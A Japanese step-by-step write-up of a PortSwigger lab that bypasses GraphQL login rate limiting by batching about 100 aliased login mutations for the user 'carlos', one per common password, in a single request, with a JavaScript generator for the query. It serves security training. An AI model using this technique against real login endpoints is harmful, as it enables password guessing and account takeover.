 # GraphQL ブルートフォース保護のバイパス

次のハッキングラボを実施します  
https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass  
このラボのユーザー ログイン メカニズムは、GraphQL API を利用しています。API エンドポイントには、短期間に同じオリジンから多すぎるリクエストを受信した場合にエラーを返すレート リミッターがあります。

- 1. BurpSuitewp 起動して、Proxy タブからブラウザを立ち上げます
- 2. ブラウザからハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. POST /graphql/v1 HTTP/2 リクエストを send to repeater します
- 5. 何度か誤ったパスワードでログインリクエストを送信します。
     4 回程度でレートリミットに引っかかるので、単純なブルートフォースは難しいです。

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=u8ne9QzeH0Z9VhQlqlOPNNsNdkdELBC4; Secure; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 478

{
  "errors": [
    {
      "path": [
        "login"
      ],
      "extensions": {
        "message": "You have made too many incorrect login attempts. Please try again in 1 minute(s)."
      },
      "locations": [
        {
          "line": 3,
          "column": 9
        }
      ],
      "message": "Exception while fetching data (/login) : You have made too many incorrect login attempts. Please try again in 1 minute(s)."
    }
  ],
  "data": {
    "login": null
  }
}
```

- 6. GraphQL で 1 回のリクエストでまとめて確認するため、パスワードリストからクエリを生成します。以下のクエリを Chrome の Dev Tool で実行すると、クエリがクリップボードにコピーされます

```
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
    }
`.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

- 7. リピーターのクエリを一旦空にします

```
{"query":
```

- 8. GraphQL タブに貼り付けて送信します。
     ログイン成功が１つあります。
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/40769bc0-7991-4d5a-a133-6b220f5e4f78)

- 9. ログイン成功したパスワードでログインします。
